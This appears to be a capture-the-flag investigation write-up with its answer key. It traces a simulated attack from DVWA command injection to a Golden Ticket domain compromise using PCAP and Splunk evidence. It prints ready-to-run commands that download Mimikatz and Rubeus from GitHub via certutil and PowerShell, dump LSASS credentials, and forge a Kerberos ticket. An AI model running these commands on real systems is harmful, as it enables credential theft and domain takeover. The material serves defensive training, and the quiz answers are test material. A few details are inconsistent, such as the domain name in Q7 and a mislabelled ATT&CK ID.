





## Scenario

A recently formed company claimed to have a secure environment. A 13-year-old attacker took this as a challenge, compromised their web server, pivoted into the internal Active Directory environment, dumped credentials, and achieved full domain compromise via a Golden Ticket attack. Investigate using Wireshark PCAP data and Splunk logs.

---

## Methodology

### Initial Access — DVWA Web Server Compromise

Opening the PCAP in Wireshark and filtering for POST requests surfaces the attacker's initial login to the vulnerable web application:

```zsh
http.request.method == POST
```



The attacker authenticated with `admin:password` from IP `192.168.1.13`. After logging in, the attacker abused the DVWA command injection endpoint at `/dvwa/vulnerabilities/exec/` to execute OS commands directly on the web server.



Six commands were issued through the injection point. The most significant was:

```zsh
; cat /var/www/dvwa/.credentials.txt
```

The response returned plaintext credentials stored on the web server:

```
Mike Tyson : Pa55w0rd
```

### Reconnaissance — Internal Network Scan

With credentials in hand and code execution on the web server, the attacker performed internal network reconnaissance:

```zsh
nmap -sC -sV 10.0.2.0/24
```

This revealed the internal subnet `10.0.2.0/24` and its live hosts, setting up the pivot into the Active Directory environment.

### AD Enumeration — Splunk

Pivoting to Splunk and searching for the compromised account:

```
index=* Account_Name=mtyson
```



The `mtyson` account interacted with two systems in the `highlysecured.tech` domain:

```
WIN-3IGU5KH5MV2.highlysecured.tech
DESKTOP-2FII9FV.highlysecured.tech
```

The account domain confirmed the AD environment: `highlysecured.tech`.

### Discovery — Credential Manager Artefact

Hunting file activity for `mtyson` on `DESKTOP-2FII9FV` surfaced a Crypto key path:

```
C:\Users\mtyson\AppData\Roaming\Microsoft\Crypto\Keys\de7cf8a7901d2ad13e5c67c29e5d1662_29480150-6ab8-4a20-afea-4127b2f5065f
```

The presence of a Crypto key artefact immediately indicated credential manipulation tooling — a direct pivot to searching for Mimikatz activity.

### Execution — Mimikatz Download Chain

Searching for Mimikatz activity across all indexes confirmed three staged downloads on `DESKTOP-2FII9FV`:

**Download 1 — PowerSploit Invoke-Mimikatz (renamed):**

```zsh
powershell  -Command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1 -OutFile Troubleshooter.ps1"
```

`Invoke-Mimikatz.ps1` downloaded from PowerShellMafia's PowerSploit and saved as `Troubleshooter.ps1` — masquerading as a legitimate Windows troubleshooting script.

**Download 2 — Mimikatz binary (renamed):**


```zsh
certutil  -urlcache -f https://github.com/ParrotSec/mimikatz/archive/refs/heads/master.zip ImpFile.zip
```

The mimikatz archive (`master.zip`) downloaded via certutil and saved as `ImpFile.zip`. The binary was extracted to:

```
C:\Users\mtyson\ImpFile\mimikatz-master\x64\mimikatz.exe
```

**Download 3 — Rubeus compiled binary (renamed):**

```zsh
certutil  -urlcache -f https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe svch0st.exe
```

Rubeus — a Kerberos attack toolkit — downloaded and saved as `svch0st.exe` (zero substituted for the letter o). This is the compiled binary stored under a legitimate-looking name, designed to blend in with the legitimate Windows `svchost.exe` process name.

### Credential Access — Mimikatz Credential Dump

With the tooling staged, the attacker dumped credentials in a single PowerShell one-liner:

```zsh
powershell  -Command '. .\Troubleshooter.ps1 ; Invoke-Mimikatz -Command "privilege::debug" ; Invoke-Mimikatz -Command "sekurlsa::logonpasswords"'
```

`privilege::debug` elevates the process to obtain SeDebugPrivilege — required to access LSASS memory. `sekurlsa::logonpasswords` extracts plaintext credentials and NTLM hashes from LSASS. The KRBTGT hash recovered here is what enabled the Golden Ticket.

### Lateral Movement — Pass the Ticket

With the KRBTGT hash obtained, the attacker forged a Golden Ticket using Mimikatz:

```zsh
mimikatz.exe  "kerberos::golden /user:mtyson /domain:highlysecured.tech /sid:S-1-5-21-2778836013-2025790062-2140220986-1108 /krbtgt:31d6cfe0d16ae931b73c59d7e0c089c0 /id:500 /ptt"
```

Breaking down the command:

- `/krbtgt:31d6cfe0...` — the KRBTGT account hash extracted from the DC
- `/id:500` — forging as RID 500 (built-in Administrator)
- `/ptt` — pass-the-ticket, loads the forged TGT directly into memory

The forged ticket was then used for lateral movement:

```zsh
mimikatz.exe  "kerberos::ptt 0-60a10000-mtyson@krbtgt~HIGHLYSECURED.TECH-HIGHLYSECURED.TECH.kirbi"
```

The `.kirbi` ticket file `0-60a10000-mtyson@krbtgt~HIGHLYSECURED.TECH-HIGHLYSECURED.TECH.kirbi` was injected into the current session, granting domain-wide Administrator access without requiring the actual account password.

---

## Attack Summary

|Phase|Action|
|---|---|
|Initial Access|DVWA command injection via `/dvwa/vulnerabilities/exec/` as admin:password|
|Discovery|`cat /var/www/dvwa/.credentials.txt` — credentials Mike Tyson : Pa55w0rd|
|Reconnaissance|`nmap -sC -sV 10.0.2.0/24` — internal subnet scan|
|Credential Access|AD login as mtyson on DESKTOP-2FII9FV.highlysecured.tech|
|Execution|`Invoke-Mimikatz.ps1` downloaded as `Troubleshooter.ps1` via PowerShell|
|Execution|`master.zip` downloaded as `ImpFile.zip` via certutil|
|Execution|`Rubeus.exe` downloaded as `svch0st.exe` via certutil|
|Credential Dump|`sekurlsa::logonpasswords` via Troubleshooter.ps1 — KRBTGT hash extracted|
|Lateral Movement|Golden Ticket forged, loaded via `kerberos::ptt` — domain-wide compromise|

---

## IOCs

|Type|Value|
|---|---|
|IP (Attacker)|192.168.1.13|
|Credentials (Web)|admin:password|
|Credentials (AD)|mtyson : Pa55w0rd|
|File|Troubleshooter.ps1 (Invoke-Mimikatz.ps1)|
|File|ImpFile.zip (master.zip / mimikatz)|
|File|svch0st.exe (Rubeus.exe)|
|Path|C:\Users\mtyson\ImpFile\mimikatz-master\x64\mimikatz.exe|
|Ticket|0-60a10000-mtyson@krbtgt~HIGHLYSECURED.TECH-HIGHLYSECURED.TECH.kirbi|
|Domain SID|S-1-5-21-2778836013-2025790062-2140220986-1108|
|KRBTGT Hash|31d6cfe0d16ae931b73c59d7e0c089c0|
|Domain|highlysecured.tech|
|URL|hxxps[://]raw.githubusercontent[.]com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1|
|URL|hxxps[://]github[.]com/ParrotSec/mimikatz/archive/refs/heads/master.zip|
|URL|hxxps[://]github[.]com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe|

---

## MITRE ATT&CK

|Technique|ID|Description|
|---|---|---|
|Exploit Public-Facing Application|T1190|DVWA command injection via vulnerable exec endpoint|
|JavaScript / Command Injection|T1059.007|OS commands injected via web application input field|
|Network Service Discovery|T1046|nmap -sC -sV 10.0.2.0/24 internal subnet scan|
|Valid Accounts|T1078|mtyson credentials used for AD lateral access|
|PowerShell|T1059.001|Invoke-Mimikatz loaded and executed via PowerShell|
|Ingress Tool Transfer|T1105|Mimikatz, Rubeus downloaded via Invoke-WebRequest and certutil|
|Masquerading|T1036.005|Rubeus.exe saved as svch0st.exe; Invoke-Mimikatz.ps1 as Troubleshooter.ps1|
|OS Credential Dumping: LSASS Memory|T1003.001|sekurlsa::logonpasswords via Mimikatz|
|Steal or Forge Kerberos Tickets: Golden Ticket|T1558.001|KRBTGT hash used to forge domain-wide TGT|
|Pass the Ticket|T1550.003|Forged .kirbi ticket injected into session via kerberos::ptt|
|Credentials in Files|T1552.001|.credentials.txt stored plaintext on web server|

---

## Defender Takeaways

**Credential files on web servers** — a plaintext `.credentials.txt` file accessible from the web root is an elementary mistake that handed the attacker domain credentials without any further exploitation. Credentials should never be stored in files on production systems. Secrets management tools or environment variables are the appropriate pattern.

**DVWA in production** — DVWA (Damn Vulnerable Web Application) is a deliberately vulnerable training platform. Deploying it in any environment connected to an internal network is the equivalent of leaving the front door open. Web application firewalls and strict input sanitisation would have blocked the command injection, but the root fix is never exposing intentionally vulnerable software.

**certutil as a download cradle** — `certutil -urlcache -f` is a well-known living-off-the-land download technique. It is flagged by most modern EDR solutions and should trigger an alert when seen downloading from external URLs, particularly GitHub raw content or blob URLs. Monitoring for `certutil` with external URL arguments is a high-fidelity detection rule.

**KRBTGT password rotation** — once a Golden Ticket is forged the only remediation is rotating the KRBTGT account password **twice** (once to invalidate existing tickets, once to prevent re-use of the old hash). A single rotation is insufficient. Detecting Golden Ticket usage requires monitoring for Kerberos tickets with anomalously long lifetimes or tickets presented without a corresponding AS-REQ in the event logs.

**Masquerading detection** — `svch0st.exe` (zero not o) would be caught by any process name allowlist or hash-based detection. Monitoring for processes with names that closely resemble legitimate Windows binaries but don't match known-good hashes is an effective control. Sysmon Event ID 1 with image hash verification covers this.


---

<div class="qa-item"> <div class="qa-question-text">Q1) The attacker tried logging into the vulnerable webserver. Can you find the correct credentials that logged in the attacker? (Format: username:password)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">admin:password</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q2) What is the IP of Attacker Machine while interacting with Webserver? (Format: X.X.X.X)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">192.168.1.13</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q3) The Attacker was able to execute commands on the WebServer. How many commands were executed? (Format: Count)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">6</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q4) The Attacker found a useful file in the WebServer. What is the name of the File as mentioned? (Format: filename.extension)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">.credentials.txt</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q5) What important data is present inside the file? (Format: Xxxx Xxxxx : Xxxxxxxx)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">Mike Tyson : Pa55w0rd</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q6) What is the Internal Network Subnet that Attacker found and scanned? (Format: X.X.X.X/XX)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">10.0.2.0/24</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q7) Using the help of Splunk, What is the Domain Name of the AD Environment? (Format: domain.tld)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">highlysecure.tech</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q8) A user account “mtyson” downloaded a few files into one of the systems. What's the name of the system? (Format: ComputerName)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">DESKTOP-2FII9FV</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q9) What is the first file that was downloaded onto the system? Provide the Original & Final Name with extension (Format: ActualName, GivenName)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">Invoke-Mimikatz.ps1, Troubleshooter.ps1</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q10) What One-Liner command was used by Attacker to dump credentials? (Format: Command)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">powershell -Command '. .\Troubleshooter.ps1 ; Invoke-Mimikatz -Command "privilege::debug" ; Invoke-Mimikatz -Command "sekurlsa::logonpasswords"'</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q11) The attacker also downloaded a CompiledBinary and stored it under a legitimate looking name. What is the name under which the file was saved? (Format: Filename.ext)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">svch0st.exe</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q12) The attacker claims to have successfully performed lateral movement. What ticket was used to execute the pass-the-ticket attack? (Format: Ticket Name)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">0-60a10000-mtyson@krbtgt~HIGHLYSECURED.TECH-HIGHLYSECURED.TECH.kirbi</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q13) It is believed that the attacker has achieved domain-wide compromise. What technique was used? (Format: Xxxxxx Xxxxxx)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">golden ticket</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Q14) What command was used to perform the attack? (Format: Command)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">mimikatz.exe  "kerberos::golden /user:mtyson /domain:highlysecured.tech /sid:S-1-5-21-2778836013-2025790062-2140220986-1108 /krbtgt:31d6cfe0d16ae931b73c59d7e0c089c0 /id:500 /ptt"</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

